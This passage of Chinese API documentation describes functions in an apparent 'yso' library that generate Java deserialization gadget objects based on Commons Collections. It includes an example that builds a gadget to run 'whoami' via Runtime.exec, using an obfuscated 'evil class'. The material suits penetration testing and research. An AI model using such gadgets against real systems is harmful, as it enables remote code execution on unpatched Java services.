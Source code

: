 
#### 定义

`GetCommonsCollections2JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollections3JavaObject

#### 详细描述
GetCommonsCollections3JavaObject 基于Commons Collections 3.1 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = &#34;whoami&#34;
className = &#34;KEsBXTRS&#34;
gadgetObj,err = yso.GetCommonsCollections3JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetCommonsCollections3JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |
